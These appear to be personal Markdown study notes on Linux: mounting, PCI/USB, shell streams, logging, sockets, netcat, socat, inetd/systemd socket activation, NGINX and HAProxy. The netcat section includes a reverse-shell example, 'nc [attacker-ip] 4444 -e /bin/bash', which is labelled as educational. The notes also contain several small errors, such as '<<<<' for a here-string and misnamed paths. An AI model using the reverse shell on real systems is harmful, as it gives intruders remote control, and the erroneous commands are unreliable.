Mounting technologies (or mechanisms) are the **ways Linux connects a storage device or virtual filesystem into the system’s directory tree** — so that users and programs can access them via paths like `/mnt/usb` or `/proc`.

Think of "mounting" as saying:

> "Put this device or filesystem here in the directory tree."

##### Categories of Mounting Technologies

###### 1.Manual Mounting (Traditional)

| Tool     | Description                                          |
| -------- | ---------------------------------------------------- |
| `mount`  | Basic tool to mount devices or filesystems manually. |
| `umount` | Unmounts the mounted file system.                    |
| `fstab`  | A file (`/etc/fstab`) for auto-mounting at boot.     |

**Example:**

```
sudo mount /dev/sdb1 /mnt/usb
```

###### 2.Virtual Filesystem Mounting

These are **not physical disks**, but kernel-generated views:

| Filesystem | Purpose                                       |
| ---------- | --------------------------------------------- |
| `procfs`   | `/proc`: kernel info, processes, memory, etc. |
| `sysfs`    | `/sys`: exposes kernel device model           |
| `tmpfs`    | RAM-based filesystem (e.g. `/run`, `/tmp`)    |
| `devtmpfs` | `/dev`: dynamic device nodes                  |
| `debugfs`  | Kernel debugging info                         |
| `configfs` | Configurable kernel objects                   |

###### 3.Filesystem Types

| Type      | Description                            |
| --------- | -------------------------------------- |
| `ext4`    | Common Linux file system               |
| `xfs`     | Scalable, journaling filesystem        |
| `btrfs`   | Modern, CoW (copy-on-write) filesystem |
| `vfat`    | Windows-compatible (USBs, etc.)        |
| `ntfs`    | Windows NT File System                 |
| `iso9660` | Optical media like CD-ROMs             |

###### 4.Automounting Systems

| Tool      | Description                                               |
| --------- | --------------------------------------------------------- |
| `autofs`  | On-demand automatic mounting                              |
| `udisks2` | Desktop auto-mounting (used in GNOME, KDE)                |
| `systemd` | Mount units like `systemd-mount`, persistent or transient |

###### 5.Network & Remote Mounting

| Tool           | Description                              |
| -------------- | ---------------------------------------- |
| `NFS`          | Mount remote Linux file systems over LAN |
| `CIFS` / `SMB` | Mount Windows shares                     |
| `sshfs`        | Mount remote folders over SSH            |
| `fuse`         | Userspace filesystem mounting framework  |

#### PCI and USB 

##### PCI

**PCI** stands for **Peripheral Component Interconnect**.
 It is a **hardware bus standard** used for **connecting internal devices** to a computer's motherboard.

###### What PCI Does

- Allows **CPU ↔ peripherals** communication (e.g., sound cards, network cards, storage controllers).
- Defines how devices are **discovered**, **configured**, and **communicated with** by the system.
- Ensures **plug-and-play** compatibility and consistent driver models.

###### Why PCI Was Developed

Before PCI, systems used slower, less standardized buses (like ISA).
 **PCI** was created to:

- Replace older bus standards (ISA, VLB)
- Support higher **bandwidth**
- Enable **device auto-configuration**
- Be platform-independent (used in Intel, AMD, PowerPC systems, etc.)

###### How PCI Works (High Level)

1. **Bus Topology:**
   - Shared bus where CPU and devices communicate via a **controller (host bridge)**.
2. **Device Addressing:**
   - Each device has a **bus:device:function** ID (e.g., `00:1f.2`).
3. **Enumeration:**
   - During boot, the OS or BIOS **scans the PCI bus** to detect all connected devices.
4. **Configuration Space:**
   - Each PCI device has **256 bytes** (or more) of space that the OS reads/writes to configure it.

**Related Concepts**

| Term                   | Meaning                                                      |
| ---------------------- | ------------------------------------------------------------ |
| **PCIe (PCI Express)** | Modern high-speed serial version of PCI (used in GPUs, SSDs) |
| **lspci**              | Linux command to list PCI devices                            |
| **/sys/bus/pci/**      | Virtual filesystem path with PCI device info                 |

**Example in Linux**

```bash
lspci
```

Shows all PCI devices on your system.

```bash
lspci -v
```

Verbose output (driver, **IRQ - interrupt requests**, memory regions, etc.)

```bash
lspci -k
```

Shows **kernel drivers** in use for each PCI device.

##### USB

**USB in Linux — Overview & How It’s Handled**

Linux handles USB devices through a well-layered stack involving hardware drivers, kernel subsystems, and user-space utilities. Here’s a deep dive into **what happens when you plug in a USB device** on a Linux system.

------

**Layers of USB Handling in Linux**

1. **USB Host Controller (Hardware)**

- Your system’s physical USB controller (e.g., **xHCI**, **EHCI**, **OHCI**, **UHCI**).
- Managed by Linux via **host controller drivers**.

**Linux Kernel Drivers:**

```text
xhci_hcd → USB 3.x
ehci_hcd → USB 2.0
ohci_hcd → USB 1.1 (Open Host Controller)
uhci_hcd → USB 1.1 (Universal Host Controller)
```

------

2. **USB Core (Kernel Subsystem)**

- The main part of the Linux kernel that manages all USB devices and communication.
- Responsible for device enumeration and driver binding.

**Device discovery happens via:**

```text
/sys/bus/usb/
```

------

3. **USB Device Drivers**

- Kernel modules that handle specific classes of USB devices:
  - `usb-storage`: for USB flash drives, external HDDs
  - `usbhid`: for keyboards, mice
  - `uvcvideo`: for webcams
  - `cdc_acm`: for USB serial devices (modems)

Drivers are **dynamically loaded** based on device IDs.

------

4. **User Space Tools**

Tools you can use to inspect or interact with USB devices:

| Command       | Description                             |
| ------------- | --------------------------------------- |
| `lsusb`       | Lists connected USB devices             |
| `dmesg`       | Kernel logs (shows device plug-in info) |
| `usb-devices` | Detailed listing of USB tree            |
| `udevadm`     | Monitors/controls device events         |
| `mount`       | To manually mount USB storage           |
| usbview       | List USB in GUI                         |

Example:

```bash
lsusb
# Output: Bus 001 Device 002: ID 0781:5567 SanDisk Cruzer Blade
```

------

Hotplug & Udev

- **udev** is the Linux device manager that listens to hotplug events (like USB).
- When you insert a USB, udev:
  1. Detects the event via `kernel` and `/sys`
  2. Applies rules (from `/etc/udev/rules.d/`)
  3. Triggers actions (e.g., mount USB stick, run scripts)

------

USB Filesystem Paths

| Path            | Purpose                    |
| --------------- | -------------------------- |
| `/sys/bus/usb/` | Kernel view of USB devices |
| `/dev/bus/usb/` | Raw USB device nodes       |
| `/dev/sdX`      | USB storage devices        |


------

Example Workflow: Plug in a USB Drive

1. `dmesg` shows:

   ```
   [ 2150.432151] usb 1-1: new high-speed USB device number 4
   [ 2150.435678] sd 6:0:0:0: [sdb] Attached SCSI removable disk
   ```
   
2. `lsblk` or `fdisk -l` shows `/dev/sdb1`.

3. Mount manually:

   ```
   sudo mount /dev/sdb1 /mnt/usb
   ```

------

Debugging Tips

- `dmesg | tail -20` → Check kernel logs on plug-in
- `lsusb -v` → Detailed USB device info
- `usbmon` → Kernel module to monitor USB traffic (advanced)

------

-----------------------

### 9. System Libraries

Mostly in `/lib` or `/usr/lib`, including:

#### glibc – Core C library - GNU C library

- **What:** The core C standard library in Linux.
  - **Role:** Provides essential APIs for:
    - File I/O, memory management, string handling
      - Process control (fork, exec)
      - Time, math functions
      - System call wrappers


- **Why it matters:**
  -  It’s the **bridge between user programs and Linux kernel system calls**. Programs call glibc functions, which translate them into kernel instructions.

- **Architecture flow:**
  -  Program → glibc → kernel syscall → hardware/OS


#### libpthread – Threading

- **What:** The threading library built on top of glibc.
  - **Role:**
     Provides API for creating and managing **multithreaded programs** (pthread_create, mutexes, condition variables).
- **Why it matters:**
   Enables concurrent execution within programs, improving performance on multicore CPUs.
- **Relationship:**
-  libpthread internally uses glibc and kernel syscalls like `clone()`.


#### libdl – Dynamic linking library

- **What:** Library that allows programs to **dynamically load and unload shared libraries** at runtime.
- **Role:**
   Provides functions like `dlopen()`, `dlsym()`, `dlclose()` for dynamic linking.
- **Why it matters:**
   Enables plugins, modules, and flexible application design without static linking.

> Tools: `ldd`, `ldconfig`

------

### 10. Shells and Terminals

User-space interaction with low-level systems.

#### Shells

different Unix shell programs that mostly speak the **same basic shell scripting language**, with some differences in features and syntax : `bash`, `sh`, `zsh`

##### input shell stream

###### 1. Interactive Input (Default stdin)

**Example 1:**

```bash
read name
echo "Hello, $name!"
```

###### 2.Redirecting Input from a File

shell commands can be linked using a `|` (pipe) so the first command `stdout` is used for the next command `stdin`

**VIP : stderr is not going in the pipe**

**Pipes only work with stdout**

- To include stderr, use redirection:

```bash
command 2>&1 | next_command
```

**Example 2:**

```bash
cat < file.txt
```

- `<` tells the shell to feed `file.txt` as stdin to `cat`.

```bash
while read line; do
  echo "$line"
done < file.txt
```

- This reads `file.txt` line by line via stdin.

a pipe has a buffer- default max is in  `/proc/system/fs/pipe-max-size` this can be changes within te process

###### 3. Using a Here Document (stdin block)

**Example 3:**

```bash
cat << EOF
Line 1
Line 2
EOF
```

`<< EOF` tells the shell to read everything until it sees `EOF` and send it as stdin to `cat`.

###### 4.Piping Output to Another Command’s stdin

```bash
echo "hello" | tr a-z A-Z
```

- `echo` sends "hello" to stdout.
- The pipe (`|`) connects it to `tr`, which takes it as **stdin** and transforms it to uppercase: `HELLO`.

###### 5.string input

```bash
cammand1 <<<< "Hello world"
```

`<<<<` is not POSIX but works in bash and zsh.

##### output shell stream

###### 🔄 1. Two Output Streams

- **stdout (standard output)** — normally goes to the screen
- **stderr (standard error)** — also goes to the screen, but for error messages

Example:

```bash
echo "Hello"           # goes to stdout
ls nonexistent_file     # error message goes to stderr
```

###### 2. Redirect One into the Other

You can combine both outputs:

```bash
command > file.txt 2>&1
```

Or:

```bash
command 2>&1 > file.txt
```

- `>` = redirect stdout
- `2>` = redirect stderr (file descriptor 2)
- `2>&1` = send stderr to wherever stdout is going

Example:

```bash
ls existing_file nonexistent_file > output.txt 2>&1
```

Both stdout and stderr go into `output.txt`.

###### 3. **`>` is Shorthand for `1>`**

These are equivalent:

```bash
echo "test" > file.txt
echo "test" 1> file.txt
```

But as the slide says — **nobody really writes `1>`**, because `>` is simpler and always means stdout.

###### 4. **Send Output to Trash with `/dev/null`**

Useful when you want to silence output.

```bash
command > /dev/null        # ignore stdout
command 2> /dev/null       # ignore stderr
command &> /dev/null       # ignore both (bash shorthand)
```

Example:

```bash
ls > /dev/null 2>&1
```

This runs `ls`, but **sends all output (normal + error) to "nothing."**

###### 5. **Overwrite vs. Append**

- `>` creates or overwrites a file
- `>>` appends to a file

Example:

```bash
echo "first line" > file.txt   # creates/overwrites file
echo "second line" >> file.txt # appends to file
```

Result in `file.txt`:

```text
first line
second line
```

------

#### Terminals

 `tty`, `pts`, `getty`, `login`

> Commands: `echo $SHELL`, `tty`, `who`

------

### 11. Logging ,  sysd-Journald, and daemon

when a unit runs (service, socket, mount, etc.), it output it's log through `stdout`, or it can encounter error, in which the application sends an `stderr` to the system, or it can send messages to the system through `syslog()` system call.

- these outputs are automatically send to log daemon:

  - a classical log daemon like rsyslog

  - systemd-journald in modern systems	

- in 2004 rsyslog was intoduced to Linux.
- in 2010 systemd was introduced to Linux with journald system

systemd-journald did not replace rsyslog but forward log to rsyslog

**Why would systemd-journald forward logs to rsyslog?**

To maintain compatibility, extend features, and support advanced logging needs.

1. Traditional Log File Support

   - `rsyslog` writes logs to **classic text files** (e.g., `/var/log/syslog`, `/var/log/messages`).

   - Some tools, scripts, or admins expect logs in these locations.

2. Remote Log Forwarding
   - `rsyslog` can **forward logs to remote servers** using TCP/UDP/syslog protocols — useful for centralized log management.

3. Custom Filtering & Routing
   - It allows **complex routing rules**, filters, or triggers (e.g., send error logs to a specific file or email).

4. Persistence & Rotation
   - Integrates with tools like `logrotate` for managing large log files over time.

#### Logging

- **where are these logs, and what does it have** 

```
ls -l /var/log
```

*output* 

```output
*.log
*log
.gz
no extention files
directories
```

**Examples of some important files in Fedora** 

- **let's check the boot file for example** 

```
sudo cat /var/log/boot.log
```

- **let's check the package manager logging file** 

```
sudo cat var/log/dnf.log
```

- **let's check the user logging file** 

```fidora
cat var/log/wtmp
```

*output*

```
gebrish data
```

- **Why?**
  - `wtmp` is a binary log, it stands for write temp

- **what is `wtmp` file?**
  - it's a file that logs the logging "login and logout" of users for the Linux system

- **how to read this binary file?**

```
last 
```

- **let's check the btmp**

```bash
sudo cat btmp
```

*output*

```
gebrish data
```

- **Why?**
  - `btmp` is a binary log, it stands for bad tmp

- **what is `btmp` file?**
  - It logs failed login attempts (bad logins).

- **how to read this binary file?**

```bash
sudo lastb -adF
```

**in Ubuntu**

- **let's check the user logging** 

  - ```bash
    sudo cat /var/log/auth
    ```

- **let's check syslog**

  - ```bash
    cat syslog
    ```

- **let's check the package manager** 

  - ```bash
    cd /var/log/apt
    ```

  - ```
    ls -l 
    ```

    *output*

    ```bash
    eipp.log.xz
    history.log
    term.log
    ```

  - ```bash
    cat history.log
    ```

    *output*

    ```bash
    all the history of the packagfes that you installed through apt
    ```

- **let's check the dmesg log file**

  - ```
    cat dmesg
    or
    sudo dmesg
    ```

    *output*

    ```
    the same output of the syslog with a little more details,
    regarding hardware as it's a kernel log file 
    ```

***

#### Log daemon (rsyslog)

it's a daemon process that receives output from application or from systemd-journald and filter it, format it, saves it, or forwards it, it saves files in text format

- **you can view the configuration of `rsyslog` thorough:**

  - ```bash
    cat /etc/rsyslog.conf
    ```

  - ```bash
    cat /etc/rysylog.d
    ```

  - ```bash
    cat /etc/syslog-ng/syslog-ng.conf
    ```

    - it would give a more flexible syntax

- **Logs size management**
  - **logrotate command**
    - **Scheduled (cron)**
    -  **Common `logrotate` options (in config files):**
      - **`rotate <count>`**
         Number of old logs to keep before deleting.
      - **`size <size>`**
         Rotate if log file exceeds this size.
      - **`daily`, `weekly`, `monthly`**
         Rotate logs by time interval.
      - **`compress` / `nocompress`**
         Enable or disable compression of old logs.
      - **`delaycompress`**
         Compress logs starting from the second rotation cycle.
      - **`missingok`**
         Don’t error if log file is missing.
      - **`notifempty`**
         Don’t rotate if log file is empty.
      - **`create <mode> <owner> <group>`**
         Create new log file with given permissions after rotation.

#### Systemd journal 

**how to check the journals**

```
journalctl 
```

*output*

```
the journals for everthing
overwelming amount of info 
```

**how to check the journals for a specific service**

```bash
journalctl -u <name of the service>
```

> -u for unit

**how to keep checking journals in real time**

```bash
journalctl -fu <name of the service>
```

> -f for follow 

**how to narrow out log output to a certain point in time**

```bash
journal ctl --since "YYYY-MM-DD HH:MM:SS"
journal ctl --since "yesterday"
journal ctl --since "1 hour ago"
```

**how to inspect any user on your system**

```
journal _UID=XXXX
```

**logging size managment**

logging and journals are always increasing in size, here is how you can manage them by limiting the space for the logs.

```bash
sudo journalctl --vacuum-size=500M
```

*careful you might delete journals from your PC* 

------

### 12. Networking Stack





#### Networking IP

##### IP4 Layer: IP address

- Dotted decimal notation ("192.168.3.20")

- 32 bit integer used to store ip address

- IP address must be unique in network

- 32 bit is divided between network and host address

- Host Part of address is obtained from subnet

##### IPv6 Layer: IP address

- Hexidecimal notation
   ("2001:0DB8:AC10:FE01:0000:0000:0000:0000")

- Zero can be omitted ("2001:0DB8:AC10:FE01::")

- IP address must be unique in network

- 128 bit addresss

#### Networking Ports

##### TCP/UDP Layer: Port Numbers

- A few well known port numbers:

  - HTTP(s) - port 80, 443

  - SSH - port 22

- **System ports** span the range (0-1023) also called root ports

- **User ports span** the range (1024-49151)

- **Dynamic and/or Private ports** (49151-65535)

- Port numbers help in multiplexing and de-multiplexing network messages
- To see all port numbers commonly defined in Linux see '/etc/services'

#### Sockets

##### Socket history

- AT&T UNIX implemented the entire OSI 7-layer model in their protocol called STREAMS (not to be confused to Pipes)
- Streams protocol implemented many UNIX applications such as RFS which could mount not only files, but also devices something NFS can not do
- BSD implemented sockets

##### What is socket

- A Socket is an IPC mechanism
- Servers applications create them
- Client applications attach to them to enable communications across a network
- Both Server and Client must be connected to the same socket before communication can begin
- Once connected applications use Read() and Write() commands similar to

##### Address Byte Order

- Different machines have different ways of ordering binary numbers

- Endianess is the way computers store bytes in memory

- Let store a number 1856 in memory

- This translates to ascii codes "0x31383536" in hex

| Big Endian    | 31   | 38   | 35   | 36   |
| ------------- | ---- | ---- | ---- | ---- |
| Little Endian | 36   | 35   | 38   | 31   |

TCP/IP has standarized on Big endian for al network interger numbers (IP,Port,etc.)

Most machines now are little Endian, but that was not the case in the past.

There are helper functions which help translate address for you

#### Network layer :

##### TCP Protocol - SOCK_STREAM

- Sometimes called a SOCK_STREAM
- Connection oriented
- Reliable Delivery
- Packet Order guarantee
- Three way handshake
- Requires more network bandwidth
- Which reminds me of an old Network proverb
- "Network Bandwidth can be fixed with money, network latency can not - the speed of light is fixed and physics can't be bribed"

##### UDP protocol - SOCK_DGRAM

- Connectionless
- Unreliable Delivery
- packet order NOT guranteed
- There is no notion of a connection
- Reqires less network bandwidth

#### Network Application model

##### client - server model

| POC         | Iterative model                                              | Concurrent model                                             | Thread model |
| ----------- | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------ |
| Description | Listerns and server coexist in the same task<br />No other client can access the service until th currently running client finishes | Listener and server run under the control of different tasks<br />listerns accepts the connection and invokes the server task | -            |
| Pros        | Simple<br />Reduced network overhead<br />Less CPU<br />higher thread throughput | Concurrent Access, can run loner since no one waiting for access<br />single lister handles many clients | -            |
| Cons        | Limit sthe concurrent access                                 | increase network overhead<br />more CPU and system resource intensive | -            |

**Maximum transmission unit (mtu)**

- dectates how many bytes can you send in the single payload
- default values are 
  - 1500 byte (octet) for IPV4
  - 1280 byte (octet) for IPV6
- Ethernet specifies 1500 for 10MB,!))MB,1GB,10GB networks (it does not care about IPV4 or IPV6)
- but ethernet also defined 1501 - 9000 as a jumbo frame for the mtu

#### Practical examples

##### netcat command

**a Transport layer command** 

The `netcat` command (aka `nc`) is a **powerful networking tool** used for:

- Creating TCP/UDP connections
- Sending or receiving files
- Port scanning
- Creating simple chat servers or shells
- Debugging network services

It's often called the **"Swiss Army knife of networking"**.

------

🔧 **Basic** **Syntax**

```bash
nc [options] [hostname] [port]
```

------

 Common Examples

###### 1. Connect to a Server (Client Mode)

```bash
nc example.com 80
```

- Opens a raw TCP connection to port 80 on example.com
- You can type HTTP requests directly

```bash
GET / HTTP/1.1
Host: example.com
```

------

######  2. **Start a Listener (Server Mode)**

```bash
nc -l -p 1234
```

- Listens on port 1234 for incoming connections

Now in another terminal:

```bash
echo "Hello" | nc localhost 1234
```

- Sends data to the listener

------

###### 3. **File Transfer with netcat**

**Sender (on machine A):**

```bash
cat file.txt | nc -l -p 4444
```

**Receiver (on machine B):**

```bash
nc [sender-ip] 4444 > file.txt
```

######  4. **Simple Chat (2-way communication)**

**Terminal A:**

```bash
nc -l -p 5000
```

**Terminal B:**

```bash
nc localhost 5000
```

Now type in either window — it works like a chat.

------

###### 5. **Port Scanning**

```bash
nc -zv localhost 20-80
```

- `-z`: scan mode (don’t send data)
- `-v`: verbose
- Scans ports 20 to 80 on localhost

------

###### 6. **Banner Grabbing (Service Info)**

```bash
nc scanme.nmap.org 80
```

- You can type in an HTTP request to see server response
- Useful for identifying services

------

⚙️ **Useful Options**

| Option | Description                          |
| ------ | ------------------------------------ |
| `-l`   | Listen for inbound connection        |
| `-p`   | Port to use                          |
| `-z`   | Zero-I/O mode (scan ports)           |
| `-v`   | Verbose output                       |
| `-n`   | Skip DNS lookup                      |
| `-u`   | Use UDP instead of TCP               |
| `-w N` | Timeout for connection (e.g. `-w 5`) |


------

###### 🧨 Reverse Shell with netcat (for educational/testing use only!)

**On attacker machine (listener):**

```bash
nc -l -p 4444
```

**On target machine (connects back):**

```bash
nc [attacker-ip] 4444 -e /bin/bash
```

- Opens a remote shell (if `-e` is supported — not in all builds)

Everything from interfaces to sockets.

- Devices: `eth0`, `lo`, `wlan0`
- Tools: `ip`, `ifconfig`, `ss`, `netstat`, `iptables`, `nft`

> Config files: `/etc/network/interfaces`, `/etc/resolv.conf`


------

##### socat command

**What?**

The `socat` (SOcket CAT) command is a **powerful, flexible networking tool** that acts like `netcat` on steroids. It can transfer data between **two endpoints**, which can be:

- TCP or UDP ports
- UNIX domain sockets
- Named pipes (FIFOs)
- Files
- PTYs (pseudo-terminals)
- Serial ports
- And more

------

**Basic Syntax**

```bash
socat [options] <address1> <address2>
```

- `address1` and `address2` define **what to connect or listen to**.
- `socat` relays data between them.

------

Common Examples

###### 1.Simple TCP Client

```bash
socat - TCP:example.com:80
```

- Opens a connection to example.com on port 80
- You can type HTTP requests manually (like with `telnet` or `nc`)

------

###### 2.Start a TCP Server

```bash
socat TCP-LISTEN:1234,reuseaddr,fork -
```

- Listens on port 1234
- Sends received data to and from stdin/stdout
- `fork` allows multiple simultaneous connections

------

###### 3.TCP Chat (Bidirectional)

**Terminal 1 (server):**

```bash
socat -d -d TCP-LISTEN:1234,reuseaddr,fork STDIO
```

**Terminal 2 (client):**

```bash
socat - TCP:localhost:1234
```

- You can now chat by typing between the terminals

------

###### 4.Forward Local Port to Remote Host

```bash
socat TCP-LISTEN:8080,fork TCP:remote.com:80
```

- Listens on local port 8080
- Forwards all traffic to `remote.com:80`

------

###### 5.Transfer a File Over Network

**Sender:**

```bash
socat -u FILE:file.txt TCP-LISTEN:4444,reuseaddr
```

**Receiver:**

```bash
socat -u TCP:sender_ip:4444 FILE:received.txt
```

- `-u` means unidirectional (optional, but often used)

------

###### 6.Create a Serial to TCP Bridge

```bash
socat TCP-LISTEN:5555,reuseaddr FILE:/dev/ttyUSB0,raw,echo=0
```

- Connects TCP port 5555 to a serial device
- Used in embedded/IoT environments

------

###### 7.Redirect a UNIX Domain Socket to TCP

```bash
socat UNIX-LISTEN:/tmp/mysock,fork TCP:127.0.0.1:80
```

- Any app connecting to the Unix socket gets forwarded to localhost:80

------

🧰 **Useful Address Types**

| Type          | Example                     | Description           |
| ------------- | --------------------------- | --------------------- |
| `TCP:`        | `TCP:host:port`             | TCP connection        |
| `TCP-LISTEN:` | `TCP-LISTEN:port,reuseaddr` | TCP server            |
| `UDP:`        | `UDP:host:port`             | UDP client            |
| `FILE:`       | `FILE:/path/to/file`        | Read/write file       |
| `PTY:`        | `PTY:`                      | Pseudo-terminal       |
| `EXEC:`       | `EXEC:'cmd args'`           | Run a shell command   |
| `UNIX:`       | `UNIX:/tmp/mysocket`        | Unix domain socket    |
| `STDIO`       | `STDIO`                     | Standard input/output |


------

🔁 **socat vs netcat**

| Feature           | `netcat (nc)` | `socat`                     |
| ----------------- | ------------- | --------------------------- |
| Basic TCP/UDP     | ✅             | ✅                           |
| File, serial, PTY | ❌             | ✅                           |
| More control      | ❌             | ✅                           |
| Scripting usage   | Simple        | Advanced, but very powerful |
| Port forwarding   | Basic         | Fully flexible              |

-----------

##### inetd / xinetd / systemD listen :

These are **"super-servers"** or **socket listeners** that **start services only when needed**, saving system resources.

| Tool      | Era        | What It Does                                               |
| --------- | ---------- | ---------------------------------------------------------- |
| `inetd`   | Old school | Starts a service when a connection hits a port             |
| `xinetd`  | Improved   | More secure, configurable replacement for `inetd`          |
| `systemd` | Modern     | Unified system/service manager, includes socket activation |


------

**How They Work**

Instead of having every network service listen on its own, a super-server:

1. Listens to the port.
2. When a connection comes in, **launches the appropriate program**.
3. Forwards the socket to it.

This is called **"socket activation"**.

------

###### 1.`inetd` (Internet Service Daemon)

**Example config line in `/etc/inetd.conf`:**

```bash
telnet stream tcp nowait root /usr/sbin/telnetd telnetd
```

- Listens for TCP connections on the Telnet port.
- When someone connects, runs `/usr/sbin/telnetd`.

**Limitations:**

- Basic security
- One request per process (no concurrency)
- Limited logging

------

###### 2.`xinetd` (Extended Internet Daemon)

A modern, more secure replacement for `inetd`.

**Config file (in `/etc/xinetd.d/`) example:**

```bash
service myserver
{
  port            = 5000
  socket_type     = stream
  protocol        = tcp
  wait            = no
  user            = root
  server          = /usr/local/bin/myserver
  log_on_success  += USERID
  disable         = no
}
```

**Features over inetd:**

- Per-service config files
- Access control (e.g., `only_from`)
- Rate limiting
- Logging and fine control

------

###### 3. `systemd` Socket Activation

Modern systems (e.g. Ubuntu, Fedora) use `systemd` for everything — including **on-demand socket listeners**.

**Two units:**

- `.socket` — defines what to listen to
- `.service` — defines what to run when a connection comes in

**Example:**

`/etc/systemd/system/myapp.socket`:

```
[Socket]
ListenStream=9000
Accept=yes

[Install]
WantedBy=sockets.target
```

`/etc/systemd/system/myapp@.service`:

```
[Service]
ExecStart=/usr/local/bin/myapp
```

Then run:

```
sudo systemctl daemon-reexec
sudo systemctl enable --now myapp.socket
```

**Advantages:**

- Parallel startup
- Socket passing (no need to open port in app)
- Resource efficiency
- Unified logging with `journalctl`

------

Comparison Table

| Feature            | `inetd`    | `xinetd`       | `systemd`          |
| ------------------ | ---------- | -------------- | ------------------ |
| Socket activation  | ✅          | ✅              | ✅                  |
| Per-service config | ❌ (1 file) | ✅ (1 per file) | ✅ (unit files)     |
| Access control     | ❌          | ✅              | ❌ (external rules) |
| Logging            | Minimal    | ✅              | ✅ (journalctl)     |
| Modern usage       | Deprecated | Legacy systems | ✅ Default (modern) |


------

**When to Use What?**

- Use **`systemd`** on any modern distro — it’s **powerful and preferred**.
- Use **`xinetd`** only on legacy systems or embedded devices.
- Avoid `inetd` unless you're dealing with very old systems.

##### NGINX – High-Performance Web Server & Reverse Proxy

Common Use Cases

- Web server (static/dynamic content)
- Reverse proxy (to upstream servers)
- Load balancer (HTTP, TCP/UDP)
- SSL termination
- Caching and compression

**Basic Commands**

```bash
# Test config syntax
sudo nginx -t

# Start nginx
sudo systemctl start nginx

# Reload without downtime
sudo nginx -s reload

# Stop nginx
sudo systemctl stop nginx

# View version & compile options
nginx -v
nginx -V
```

------

**Reverse Proxy Example**

```bash
server {
    listen 80;
    server_name example.com;

    location / {
        proxy_pass http://localhost:3000;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
}
```

------

🚦 **Load Balancing Example**

```bash
upstream backend {
    server app1.local;
    server app2.local;
}

server {
    listen 80;
    location / {
        proxy_pass http://backend;
    }
}
```

------

##### HAProxy – Advanced TCP/HTTP Load Balancer

**Common Use Cases**

- Layer 4 (TCP) or Layer 7 (HTTP) load balancing
- SSL offloading
- Health checking
- Stickiness (session persistence)
- High availability clusters

**Basic Commands**

```
# Start HAProxy
sudo systemctl start haproxy

# Check config
sudo haproxy -c -f /etc/haproxy/haproxy.cfg

# Reload config
sudo systemctl reload haproxy

# Show version
haproxy -v
```

------

##### HAProxy HTTP Load Balancing Example

```
frontend http-in
    bind *:80
    default_backend servers

backend servers
    balance roundrobin
    server web1 192.168.1.10:80 check
    server web2 192.168.1.11:80 check
```

------

**TCP Load Balancing Example**

```bash
frontend mysql-in
    bind *:3306
    default_backend mysql-nodes

backend mysql-nodes
    mode tcp
    balance leastconn
    server db1 192.168.1.12:3306 check
    server db2 192.168.1.13:3306 check
```

------

**NGINX vs HAProxy**

| Feature             | NGINX                 | HAProxy                      |
| ------------------- | --------------------- | ---------------------------- |
| Protocols           | HTTP, HTTPS, TCP, UDP | TCP, HTTP, HTTPS             |
| Performance         | Very high             | Extremely high (optimized C) |
| Config complexity   | Simpler               | More granular                |
| SSL termination     | ✅                     | ✅                            |
